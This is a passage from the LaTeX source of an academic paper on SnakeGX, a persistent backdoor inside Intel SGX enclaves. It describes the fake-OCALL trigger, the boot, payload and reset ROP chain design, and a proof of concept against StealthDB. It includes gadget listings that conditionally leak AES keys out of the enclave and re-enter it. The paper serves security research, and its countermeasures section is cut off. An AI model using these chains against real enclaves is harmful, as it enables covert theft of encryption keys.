the application might realize that the enclave is unavailable.
We use this approach for our PoC.

\paragraph{\textbf{Making a New Thread.}}
SGX $2.0$ and recent versions of the Intel SGX SDK allow creating trusted 
threads at run-time.
Therefore, an attacker may force the enclave to create a new trusted thread 
without tampering with the pool.
However, this approach should be used wisely, otherwise unexpected trusted 
threads may attract the analyst attention, thus affecting the stealthiness of 
SnakeGX.

\subsection{Set a Payload Trigger}
\label{ssec:set-a-payload-trigger}
We design our trigger on top of the Intel SGX SDK flaw highlighted in 
Section~\ref{sec:sgx-internal}.
We assume that an attacker has already gained control of an enclave by means
of a code-reuse attack.
Moreover, either the payload and the trigger must be tuned for the trusted 
thread under attack.

To install the trigger, the adversary has to mimic an \texttt{OCALL}
such that 
the next \texttt{ORET} will activate the backdoor (\ie a \emph{chain}) instead 
of resuming the execution of a secure function.
To achieve this goal, the adversary has to perform three main operations:
\begin{enumerate*}[label=(\roman*)]
	\item set a fake \texttt{ocall\_context} on the stack that satisfies the 
	formal requirements as described in Section~\ref{ssec:ocall-context};
	\item call the function \texttt{save\_xregs()} (which is contained in 
	\texttt{tRts}) to save extended process features, the function should take 
	as an argument the \texttt{xsave\_buff} location of the fake 
	\texttt{ocall\_context} previously copied;
	\item call the function \texttt{update\_ocall\_lastsp()} (which is 
	contained in \texttt{tRts}) by passing the pointer to the fake 
	\texttt{ocall\_context}. This function will set TLS \texttt{last\_sp} 
	to the fake \texttt{ocall\_context}, thus simulating an \texttt{OCALL}.
\end{enumerate*}

This setting allows us to resume the payload execution by performing an 
\texttt{ORET} on the attacked trusted thread.
More precisely, \texttt{asm\_oret()} will restore the context previously 
installed and it will activate the first gadget.
By default, \texttt{ocall\_context} does not perform a pivot (\ie it does not 
set the \texttt{rsp} register).
To bypass this issue, we used a pivot gadget that is contained in 
\texttt{asm\_oret()} function itself:\textsl{} \texttt{mov rsp, rbp; pop rbp; 
	ret}.
This gadget is present in any SDK version released so far, so it is a generic 
technique for SGX backdoors.
We observed the same gadget also in Windows \texttt{tRts}.
%That is, the return address in the fake \texttt{ocall\_context} points to a 
%pivot gadget. % ERI UBRIACO?
%Therefore, the return address in the fake \texttt{ocall\_context} points to 
%a pivot gadget. 
Therefore, the first instruction triggered by the fake \texttt{ocall\_context} 
is a pivot gadget.
Then, we set the \texttt{rbp} to point to a fake stack inside the stolen 
thread. 
In this way, the \texttt{ORET} always pivots to the fake stack that contains 
the actual payload.
%When a process invokes an \texttt{ORET} on the compromised TCS, the 
%\texttt{do\_oret} function will restore the fake \texttt{ocall\_context}.
%As a result, the \texttt{tRts} will trigger our payload instead of resuming a 
%secure function.
Notice that this mechanism just pivots to the fake address indicated by the 
fake \texttt{ocall\_context} (\ie \texttt{rbp}).
As such, an attacker only needs one fake \texttt{ocall\_context} that pivots to 
a fixed location.
Then, she can just copy different fake stacks to the same location to activate 
different payloads.


\subsection{Backdoor Architecture}
\label{ssec:enclave-kit-architecture}

Figure~\ref{fig:t-thread-stack-installed} shows the payload
architecture that we adopted for SnakeGX.
This solution allows us to achieve payload persistence in an SGX enclave by 
only using the stack address space.
By default, the Intel SGX SDK sets the stack size at $40$KB, therefore, we 
design SnakeGX to fit this size.
For the sake of simplicity, we describe the switching mechanism in 
Section~\ref{ssec:switch-context}.

As underlined by \cite{vogl2014persistent}, classic code-reuse attacks (\eg 
ROP) are designed to be one-shot.
After executing a \emph{chain}, it may be destroyed due to gadgets side effects.
Therefore, we need a location to keep a backup of the structures used.
According to this consideration, we split the stack address memory in four 
sections:

\textbf{Fake Frame.} SnakeGX requires a dedicated location for installing 
an \texttt{ocall\_context}.
This structure is used to either perform the payload trigger and the 
context-switch (see Section~\ref{sec:sgx-internal}).
These features are crucial to implement a persistent backdoor in the SGX 
realm since classic techniques cannot be used.

\textbf{Buffer.} This area contains temporary variables that are used by  
payloads. For instance, our PoC stores the previous data 
exfiltrated (see Section~\ref{sec:evaluation_snakegx}).

\textbf{Workspace.} The fake frame previously installed is tuned to pivot the 
execution to this location. 
Generally speaking, any payload is coped here before being executed.

\textbf{Backup.} This location contains a copy of all the structures 
needed by SnakeGX to work properly.
After the SnakeGX installation, this location should not be overwritten.
%\end{itemize}

%Since a data-only malware must be designed to re-install itself after being 
%triggered.
Since the \emph{chains} used may be destroyed after 
payload execution, we need a mechanism that brings SnakeGX to the initial 
state after the payload has been executed.
More precisely, it has to make the payload available for future invocations.
To achieve this goal, we use three \emph{chains}: Boot Chain (B$_c$), Payload 
Chain (P$_c$), and Reset Chain (R$_c$).
Each of them is formed by a fake stack that is maintained in the backup zone 
and moved in the workspace on demand:

\textbf{Boot Chain (B$_c$).} This is the first chain that is triggered by 
the hook, its duties are:
\begin{enumerate*}[label=(\roman*)]
	\item copy P$_c$ and R$_c$ into the workspace, and
	\item pivot to P$_c$.
\end{enumerate*} 
This chain is usually quite short.

\textbf{Payload Chain (P$_c$).} This contains the actual payload 
and is strictly enclave dependent. When the payload ends, it just pivots to 
R$_c$.

\textbf{Reset Chain (R$_c$).} 
This \emph{chain} resets the payload inside the enclave and makes it ready for 
the next calls without the need of the installation phase.
This is achieved with the following operations:
\begin{enumerate*}[label=(\roman*)]
	\item copy B$_c$ into workspace,
	\item copy the \texttt{ocall\_context} in the fake frame,
	\item set TLS to point to \texttt{ocall\_context}.
\end{enumerate*}

After the execution of R$_c$, SnakeGX can be triggered again by a new 
\texttt{ORET}.
The loop boot-payload-reset \emph{chain}, along the architecture shown in 
Figure~\ref{fig:t-thread-stack-installed}, is a simple framework that can be 
used by the adversaries to design their customized payload for SnakeGX.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c5/t-thread-stack-installed.pdf}
	\caption[SnakeGX installation layour.]{Trusted thread stack after SnakeGX 
	installation. The memory is split in four areas: FakeFrame, buffer, 
	workspace, and backup. Moreover, the stack contains copies of B$_{c}$, 
	P$_{c}$, and R$_{c}$.}
	\label{fig:t-thread-stack-installed}
\end{figure}

\subsection{Context-Switch}
\label{ssec:switch-context}

To allow SnakeGX to interact with the host OS, while 
maintaining the enclave control,
%we need novel methods never used for previous any data-only malware.
%SnakeGX is able to interact with the
%host OS while maintaining the enclave control.
%To achieve this goal, 
%Overall, 
we need to perform three operations:
\begin{enumerate*}[label=(S\arabic*)]
	\item temporarily copy part of the payload outside,
	%\item exit gracefully, and
	\item leave the enclave, and
	\item resume the execution inside the enclave.
\end{enumerate*}
The first two operations are relatively simple: the Intel SGX SDK already 
provides standard routines (\eg \texttt{memcpy})
to move data outside the enclave.
Moreover, it is possible to pivoting outside the enclave by abusing the 
\texttt{EEXIT} opcode (Section~\ref{ssec:sgx-control-flow-attacks}). 
On the contrary, resuming the enclave execution requires SnakeGX to invoke
an \texttt{EENTER} opcode.
However, it is not possible to arbitrarily jump inside an enclave (\ie the 
entry point is fixed).
Therefore, we abuse again of the Intel SGX SDK deign error described in 
Section~\ref{sec:sgx-internal}.

To perform the context-switch, we split the payload in three chains, called 
outside-chain 
(O$_c$), payload-one (P$_1$), and payload-two (P$_2$).
O$_c$ is the part of the payload copied in the untrusted memory,
while P$_1$ and P$_2$ remain inside the enclave.
During the context-switch, we execute P$_1$, O$_c$, and P$_2$, 
consequently.
More precisely, once P$_1$ requires to interact with the host, it performs (S1) 
to prepare the O$_c$ activation, installs a fake frame
(Section~\ref{ssec:enclave-kit-architecture}), and prepares P$_2$ in the 
workspace.
At this point, P$_1$ can perform (S2): leave the enclave and pivot to 
O$_c$.
When the operations in untrusted memory are terminated, O$_c$ only needs to run 
an \texttt{ORET} that will activate P$_2$ (S3).
Finally, P$_2$ can clean the traces left by O$_c$ and continue the backdoor 
execution.
It is possible to perform many context-switch by tuning the payload accordingly.

\section{Proof-of-Concept Implementation}

In this section, we discuss the implementation details of our proof-of-concept.
We first describe the code-reuse technique used 
(Section~\ref{ssec:my-rop-chain}), then we focus on a the ROP chain for the
conditional jumps (Section~\ref{app:condition-gadget}) and the context-switch 
(Section~\ref{app:context-switch-chain}).

\subsection{Code-Reuse Technique}
\label{ssec:my-rop-chain}
%To show the feasibility of SnakeGX, we built our proof-of-concept
%on top of the research proposed by Biondo et al.~\cite{biondo2018guard}.
To show the feasibility of SnakeGX, we choose for our proof-of-concept
the technique described by \cite{biondo2018guard}.
This means that SnakeGX uses ROP. 
%\todo{FT: suggestion: "SnakeGX does not rely on a specific technical, but it 
%does require one to control its behavior."}
However, as stated in Section~\ref{sec:threat-model}, 
%SnakeGX does not require any specific code-reuse technique as long as this 
%allows controlling the enclave behaviour.
SnakeGX does not rely on a specific technique, but it does require one to 
control its behavior.
Moreover, we adapted their approach to work on the Intel SGX SDK newer versions.

In the original approach, the authors exploited \texttt{asm\_oret()} and 
\texttt{continue\_exec\\ution()} functions.
%, both described in~\cite{biondo2018guard}. %Section~\ref{ssec:cont}.
More precisely, they crafted a set of fake frame in order to create a loop 
between these functions.
In the x$64$ architecture, the first four function parameters are passed by 
registers.
Therefore, the authors used \texttt{asm\_oret()} for setting 
\texttt{continue\_execution()} registers pointing to a controlled structure.
However, as also Biondo underlined, it is more complicated to use 
\texttt{asm\_oret()} for SDK $2.0$.
This is why in our approach we substituted \texttt{asm\_oret()} with a 
\emph{glue gadget}.
This might be any gadget that sets the input register for the 
\texttt{continue\_execution()} function.
Since we developed our proof-of-concept for Linux 64bit, 
\texttt{continue\_execution()} expects the first argument
(\ie a \texttt{sgx\_exception\_info\_t} address) in the \texttt{rdi} register.
This is achievable by using a classic \texttt{pop rdi} gadget. 
Windows, instead, follows a different calling convention
and \texttt{continue\_execution()} expects an \texttt{ocall\_context} address 
shifted by $8$ byes in the \texttt{rcx} register.
Therefore we used a \texttt{pop rcx} as a \emph{glue gadget}.
In our evaluation, we found \texttt{pop rdi} and \texttt{pop 
	rcx} gadgets in the Intel SGX SDK version for Linux and Windows, 
	respectively.

Figure~\ref{fig:flavio-enclave-chain} describes our code-reuse technique.
The attacker crafts a fake stack that can reside inside or outside the enclave,
we used both approaches. The fake stack is composed by frames, one of which 
contains in order:
\begin{enumerate*}[label=(\roman*)]
	\item a \emph{glue gadget} address,
	\item a fake \texttt{sgx\_exception\_info\_t} address,
	\item the \texttt{continue\_execution()} address.
\end{enumerate*}
Once the first \emph{glue gadget} is triggered, it will set \texttt{rdi} (or 
\texttt{rcx} in Windows) register pointing to the fake 
\texttt{sgx\_exception\_info\_t} structure.
Then, the \texttt{continue\_execution()} will set registers according to 
\texttt{sgx\_exception\_info\_t} 
and it will also pivot to the actual gadget.
Since \texttt{continue\_execution()} allows us to control all general registers,
we can easily invoke another function instead of a simple gadget (\eg 
\texttt{memcpy} in Frame~$1$).
Finally, the gadget will return at the beginning of the next frame.
At this point, the CPU will trigger a new \emph{glue gadget} and the attack 
continues.

Our technique is more flexible compared to the one described by Biondo.
By using a \emph{glue gadget}, we can easily drive 
\texttt{continue\_execution()} without
relying on other SDK functions that might change in future versions.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.8\textwidth]{fig_c5/flavio-enclave-chain.pdf}
	\caption{Chain used in the proof-of-concept of SnakeGX.}
	\label{fig:flavio-enclave-chain}
\end{figure}

%\onecolumn
\subsection{Conditional Chain}
\label{app:condition-gadget}
Conditional ROP-chain, the chain is triggered by using 
\texttt{sgx\_exception\_info\_t} structure that configures the initial	
registers (see Section~\ref{ssec:my-rop-chain}).
The \texttt{SP} register is perturbed if the value of 
\texttt{\&lastKey} differs from the value of \texttt{\&key} in order to 
pivot a true or a false ROP-chain, respectively.
%\begin{figure}[h]
\begin{lstlisting}[style=CStyle,escapechar=@]	
/// we set the following registers through
/// a sgx_exception_info_t structure:
/// rdi = &lastKey; last key exfiltrated
/// rax = &key; current key loaded
/// rdx = #offset; to pivot to the false ROP-chain
/// rcx = &true-chain; address of the true ROP-chain
mov eax, dword ptr [rax] ; ret
mov rdi, qword ptr [rdi + 0x68] ; ret
cmp eax, edi ; sete al ; movzx eax, al ; ret
neg eax ; ret
and eax, edx ; ret
add rax, rcx ; ret
xchg rax, rsp ; ret
// 0x80 nops for padding
// beginning of true ROP-chain
pop rdi ; ret
// context to pivot to the ROP-chain that implements the true branch
&context_true
// address of continue_execution function
&continue_execution
// beginning of false ROP-chain
pop rdi ; ret 
// context to pivot to the ROP-chain that implements the false branch
&context_false
// address of continue_execution function
&continue_execution\end{lstlisting}
%	\caption{Conditional ROP-chain, the chain is triggered by using 
%		\texttt{sgx\_exception\_info\_t} structure that configures the initial	
%		registers (see Appendix~\ref{ssec:my-rop-chain}).
%		The \texttt{SP} register is perturbed if the value of 
%		\texttt{\&lastKey} differs from the value of \texttt{\&key} in order to 
%		pivot a true or a false ROP-chain, respectively.}
%	\label{fig:condition-chain}
%\end{figure}

%\begin{figure}[h]
%	\begin{lstlisting}[style=CStyle,escapechar=@]	
%/// we set the following registers through a sgx_exception_info_t structure:
%// rcx = &ctn // address of counter for internal status
%// rsi = 0
%// rdx = #offset // to pivot to the false ROP-chain
%// r10 = &true-chain // address of the true ROP-chain
%// rdi = 10 // number of elements to check
%mov eax, dword ptr [rcx] ; ret
%sub eax, edi ; ret
%neg eax ; ret
%adc esi, esi ; ret
%xor eax, eax ; ret // it avoids the side effect of the following gadget
%mov eax, esi ; mov rcx, rdi ; jne 0x70d8 ; ret
%neg eax ; ret
%and eax, edx ; ret
%add rax, r10 ; ret
%xchg rax, rsp ; ret 0x80
%// 0x80 nops for padding
%// beginning of true ROP-chain
%pop rdi ; ret 
%&context_true // context to pivot to the ROP-chain
%							// that implements the true branch
%&continue_execution // address of continue_execution function
%// beginning of false ROP-chain
%pop rdi ; ret 
%&context_false  // context to pivot to the ROP-chain 
%			 					// that implements the false branch
%&continue_execution // address of continue_execution function\end{lstlisting}
%	\caption{Condition ROP-chain, the chain is triggered by 
%	using 
%	\texttt{sgx\_exception\_info\_t} structure that configures the registers 
%	(see Appendix~\ref{ssec:my-rop-chain}).
%	The \texttt{SP} register is perturbed according to the value stored in 
%	\texttt{\&ctn} in order to pivot to a true or a false ROP-chain, 
%	respectively.}
%	\label{fig:condition-chain}
%\end{figure}

\subsection{Context-Switch Chain}
\label{app:context-switch-chain}
Details of the \texttt{sgx\_exception\_info\_t} 
structures used to leak the key and to switch outside the enclave.
The structures are used according to the techniques described in 
Section~\ref{ssec:my-rop-chain}.
%\begin{figure}[h]
\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous sgx_exception_info_t structures... */
// leaks the key outside the enclave
// memcpy(key, buff)
ctxPc[2].cpu_context.rsi = &key; // address of the key
ctxPc[2].cpu_context.rdi = &buff; // memory regions where leaking the key
ctxPc[2].cpu_context.rdx = KEY_LENGTH; // length of the key
ctxPc[2].cpu_context.rip = &memcpy;
// prepares the next boot chain in the workspace
// memcpy(boot_chain, workspace)
ctxPc[3].cpu_context.rdi = &workspace; // workspace address
ctxPc[3].cpu_context.rdx = sizeof(boot_chain);
ctxPc[3].cpu_context.rsi = &boot_chain_backup;
ctxPc[3].cpu_context.rip = &memcpy;
// set the fake OCALL frame in the enclave
// memcpy(fake_frame, enclave)
ctxPc[4].cpu_context.rdi = &fake_frame;
ctxPc[4].cpu_context.rdx = sizeof(fake_frame);
ctxPc[4].cpu_context.rsi = &fake_frame_backup;
ctxPc[4].cpu_context.rip = &memcpy;
// saves CPU extended states for asm_oret
// save_xregs(xsave_buffer)
ctxPc[5].cpu_context.rdi = &xsave_buffer;
ctxPc[5].cpu_context.rip = &save_xregs;
// sets the trusted thread as it is performing an OCALL
// update_ocall_lastsp(fake_frame)
ctxPc[6].cpu_context.rdi = fake_frame;
ctxPc[6].cpu_context.rip = &update_ocall_lastsp;
// pivots to the outside-chain
// eenclu[exit] -> outside_chain
ctxPc[7].cpu_context.rax = 0x4; // EEXIT
ctxPc[7].cpu_context.rsp = &outside_chain_stack;
ctxPc[7].cpu_context.rbx = &outside_chain_first_gadget;
ctxPc[7].cpu_context.rip = &enclu;\end{lstlisting}
%\caption{Details of the \texttt{sgx\_exception\_info\_t} 
%structures used to leak the key and to switch outside the enclave.
%The structures are used according to the techniques described in 
%Appendix~\ref{ssec:my-rop-chain}.}
%\label{fig:context-switch-trusted-chain}
%\end{figure}

\noindent 
Details of the outside ROP-chains used to resume payload inside the enclave.
%\begin{figure}[h]
\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous gadgets for shipping the password remotely... */
// gadgets to resume payload within the enclave
pop rax ; ret
0x2 // EENTER
pop rbx ; ret
&tcs_address
pop rdi ; ret // rdi = -2 -> ORET
0xfffffffffffffffe // -2
pop rcx ; ret // for async exit handler
&Lasync_exit_pointer
&enclu_urts\end{lstlisting}
%	\caption{Details of the outside ROP-chains used to resume 
%	payload inside 
%	the enclave.}
%	\label{fig:colntext-switch-outside-chain}
%\end{figure}


\section{Evaluation}
\label{sec:evaluation_snakegx}

We evaluate the real impact of our framework against StealthDB,
an open-source project that leverages on the SGX technology~\citep{stealthdb}.
We opted for StealthDB because it is a generic representation of our scenario, 
as we describe in Section~\ref{ssec:stealthdb}.
We split our evaluation in three parts:
\begin{enumerate*}[label=(\roman*)]
	\item a technical discussion of our use-case 
	(Section~\ref{ssec:homemade-poc}),
	\item a measurement of the traces left (Section~\ref{ssec:comparison}), and
	\item a discussion about the countermeasures (Section~\ref{ssec:detection}).
\end{enumerate*}

\subsection{StealthDB}
\label{ssec:stealthdb}
StealthDB~\citep{stealthdb} is a plugin for PostgreSQL~\citep{postgresql} that
uses Intel SGX enclaves to implement an encrypted database.
This project is the ideal use-case for SnakeGX: StealthDB lifetime is bounded 
to PostgreSQL, thus we can rely on its enclaves as a secure save point for 
storing the payload and launching the attacks.

StealthDB uses a single SGX enclave to handle encrypted fields and operations 
that are performed inside the enclave itself.
In this way, the database can securely save encrypted fields on disk, while the
plain values are handled only inside the enclave.
The encryption algorithm is AES-CTR with keys 128 bits long. These keys are 
sealed on 
the disk through the standard SGX features.
A user can define multiple keys that are loaded on-demand inside 
the enclave, however, the StealthDB enclave maintains in memory only a single 
key at a time.
In this scenario, one-shot state-of-the-art techniques 
require multiple interactions to obtain all the keys. 
This approach leaves more copies of the payload in the memory, thus increasing
the risk of being detected.
Even if an adversary manages to obtain all the sealed keys, she still has 
to perform new attacks whenever a new key is generated.
SnakeGX is able to understand when a new key is loaded and performs the 
exfiltration steps accordingly. In this way, the attacker transparently hides 
and activates complex logic that resides inside a trusted enclave. 

\subsection{Use-Case Discussion}
\label{ssec:homemade-poc}

In this section, we discuss the properties of 
our PoC payload and some implementation details. For more technical 
details about our payload see Section~\ref{ssec:my-rop-chain}.
Our setup is composed by an application that loads StealthDB enclave 
and performs the attacks.
We extracted the gadgets for the \emph{chains} by running ROPGadget on the 
compiled enclave~\citep{ropgadget}.
As our threat model details in Section~\ref{sec:threat-model_snakegx}, we 
introduced a memory corruption vulnerability in StealthDB to simplify the 
payload delivery.
We developed our data-only malware for SGX in a host OS running Linux with 
kernel $4.15.0$ and Intel SGX SDK version $2.9$.

We composed our PoC of three steps.
First, the application starts and loads the enclave.
Second, we exploit the enclave vulnerability and implant 
the payload.
Third, we alternatively invoke normal secure functions and
the backdoor. This shows that SnakeGX does not alter the normal enclave 
functionality.
Once the backdoor is triggered, SnakeGX exfiltrates the keys only when the 
condition is satisfied.
Without using SnakeGX, the adversary has to perform many 
attacks to achieve the same goal, which potentially leaves traces for an 
analyst.
Moreover, SnakeGX avoids the burden of crafting new payloads at each 
exfiltration.

\textbf{The Payload.}
Our payload shows three important features:
\begin{enumerate*}[label=(\roman*)]
	\item persistence,
	\item internal state, and
	\item context-switch.
\end{enumerate*}
More precisely, the payload exfiltrates a key if and only if it changes.
This is crucial in our threat model (Section~\ref{sec:threat-model_snakegx}), 
which 
assumes a non-compromised host, thus the attacker has to reduce 
un-useful actions.
In fact, all the payload structures are kept inside the enclave,
and an adversary only needs to trigger an \texttt{ORET} against the compromised
thread.
Once activated, the payload is able to self-check its status, and in case, leak 
the key.
The payload is composed by three \emph{chains}:
\begin{itemize}
	\item \textbf{P$_1$} is the first payload to be activated. It checks if the 
	key changed, and in case activates the exfiltration.
	\item \textbf{O} is the outside-chain that actually exfiltrates the key. 
	It 
	is temporary copied in the untrusted memory by P$_1$.
	\item \textbf{P$_2$} is the second payload that is triggered by O after 
	the 
	exfiltration. The purpose of P$_2$ is to wipe out all the temporary 
	structures 
	previously copied in the untrusted memory, \ie O and the key.
\end{itemize}
From an external analyzer, all the structures (\ie P$_1$, P$_2$, and O) are 
always
contained in the enclave when the payload is not activated.
The only \emph{chain} temporary copied outside is O, but P$_2$ cleans its 
traces.
Moreover, to activate the payload, the attacker only needs to trigger an 
\texttt{ORET} 
instead of preparing complex code-reuse attacks.
In Section~\ref{ssec:comparison}, we measure and compare the traces of SnakeGX
\wrt the state-of-the-art attacks.

\textbf{Chains Composition.}
\label{ssec:chain-composition}
Our payload maintains an internal state and interacts with the 
host.
To handle the state, the payload is able to perform a conditional pivoting
by comparing the current key and a copy of the last key 
exfiltrated~\citep{geometry2007}.
The conditional chain is implemented in P$_1$.
Once the key changes, P$_1$ will pivot to a \emph{chain} that performs the 
exfiltration. Otherwise, the payload will pivot to 
another \emph{chain} that simply resumes the normal enclave behavior.
We describe the gadgets used to perform conditional pivoting in 
Section~\ref{app:condition-gadget}.
The interaction with the OS, instead, requires two types of \emph{chains}: some 
that run inside the enclave (\ie P$_1$ and P$_2$), and others that run outside
(\ie O).
Table~\ref{tbl:gadgets} shows some statistics about \emph{chains} composition.
The \emph{chains} inside the enclave are entirely composed by gadgets from the 
\texttt{tRts}.
More precisely, P$_1$ and P$_2$ invokes $27$ and $13$ functions such as 
\texttt{memcpy()}, and \texttt{update\_ocall\_lastsp()}, respectively.
In terms of memory, P$_1$ and P$_2$ occupy $2816$ and $1232$ byes, 
respectively.
The chain O, instead, is composed by classic gadgets from \texttt{libc}.
More precisely, O is composed by $20$ small standard gadgets. 
The internal ecosystem of \texttt{tRts}, and the \texttt{libc} in Linux 
systems, provide
enough gadgets and functions to create useful payloads.
We describe the gadgets used for these \emph{chains} in 
Section~\ref{app:context-switch-chain}.

\begin{table}[t]
	\centering
	%	\vspace{-7.5em}%
	\begin{tabular}{lrrr}
		\toprule
		Chain & \multicolumn{1}{l}{\# fnc/sys} & \multicolumn{1}{l}{\# gadgets} 
		& \multicolumn{1}{l}{size [B]} 
		\\ \midrule
		P$_1$    & $27$ & $23$ & $2816$ \\
		P$_2$    & $13$ &  $7$ & $1232$ \\
		O     	 & $4$ &  $20$ & $312$ \\ \midrule
		sum   	 & $44$ &  $50$ & $4360$ \\ \bottomrule
	\end{tabular}
	\caption{Statistics of the gadgets used for the payload.}
	\label{tbl:gadgets}
\end{table}

\subsection{Trace Measurements}
\label{ssec:comparison}
We analyze our PoC and measure the advantages SnakeGX introduces.
We recall that our threat model assumes a weak adversary which has no control 
of the host, and therefore, she has to improve her stealthiness.
To perform the same goal of our PoC by using state-of-the-art one-shot 
attacks~\citep{biondo2018guard}, an attacker has to leave in the untrusted 
memory around $4$KB of structures (\ie P$_1$, P$_2$ and O).
These traces can be found by using previous results already shown in the 
literature~\citep{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894}.
Moreover, their identification results even simpler since
they use peculiar structures such as 
\texttt{sgx\_exception\_info\_t} (see Section~\ref{ssec:my-rop-chain}).
On the contrary, SnakeGX requires only one \texttt{ORET} to trigger the
payload.
In particular, our PoC implements an \texttt{ORET} by using only $4$ gadgets 
and leaving a negligible footprint of $56$ byes in memory. 
%, thus, reducing its traces over $99\%$.
As a result, the trigger used by SnakeGX is able to activate payloads 
arbitrary complex by leaving a minimal footprint.

\subsection{Countermeasures}
\label{ssec:detection}

SnakeGX poses new challenges for forensic investigators and backdoor analysts 
as well as for experienced reverse engineers.
The current state-of-the-art tools cannot detect and dissect this new threat. 
It is necessary to develop 
new tools and techniques for the detection and possibly the prevention of 
threats affecting SGX and similar technologies.
Here, we discuss some possible directions for the detection that can be used to 
observe the presence of SnakeGX in a system.
Moreover, we analyze how the current state-of-the-art defenses
can mitigate our attack and which future research lines can be taken.
This is not a comprehensive study and we leave this part for future work.
We hope this research paves the way for new works in the malware analysis field.

\textbf{Memory Forensic Analysis.}
SnakeGX is an infector of legitimate enclaves and is by definition 
stealthier.
This means that any form of memory forensics is no more possible. The memory of 
the enclave cannot be inspected. As explained in 
Section~\ref{ssec:sgx-core-design},
SGX makes impossible to read memory pages that belong to an enclave.
Any attempts at reading such pages will result in a fake value $0$xFF.
Another possible approach is to use new attacks based on 
microcode flaws~\citep{foreshadow} or fault 
injections~\citep{Murdock2019plundervolt} to dump an enclave content.
Alternatively, it is possible to use side-channel attacks to 
